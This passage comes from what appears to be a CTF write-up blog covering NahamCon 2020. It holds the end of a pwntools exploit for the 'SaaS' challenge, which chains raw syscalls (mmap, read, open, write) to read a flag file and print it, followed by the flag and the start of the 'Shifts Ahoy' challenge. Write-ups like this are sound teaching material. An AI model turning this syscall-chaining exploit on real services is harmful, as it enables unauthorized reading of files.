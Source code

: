 		return int(r.recvline().rstrip(), 16)

pause()

# mmap 0xbeef000 for reading/writing data
syscall(9,0xbeef000,0x1000,7,0x22,0,-1)
# read from STDIN(fd=0) to read filename into our buffer
syscall(0,0,0xbeef000,0x1000,0,0,0)
# send filename, taken from script arguments ("flag.txt" was the flag filename)
sleep(0.1)
r.send(sys.argv[-1]+"\x00")
# fd = open(filename)
fd = syscall(2,0xbeef000,0,0,0,0,0, True)
# le = read(fd, ...), reading from flag file to buffer at 0xbeef000
le = syscall(0,fd,0xbeef000,0x1000,0,0,0, True)
# write(STDOUT, 0xbeef000, ...) to write flag contents to STDOUT(fd=1)
syscall(1,1,0xbeef000,le,0,0,0)

# get flag!
r.interactive()
{% endhighlight %}

`flag{rax_rdi_rsi_radical_dude}`

[saas]:{{site.baseurl}}/ctf/nahamcon20/SaaS/saas
[saas-exploit]:{{site.baseurl}}/ctf/nahamcon20/SaaS/exploit.py



# Shifts Ahoy
> I created super advanced encryption software for us to communicate securely.
>
> Connect with:
>
> nc jh2i.com 50015 (Solves: 72, 100 pts)
>
> [shifts-ahoy](shifts) [exploit.py](shifts-exploit)

This challenge presents us with a menu that allows us to encrypt or decrypt text. However, the `decrypt` option is not implemented so we are just limited to encrypting text.
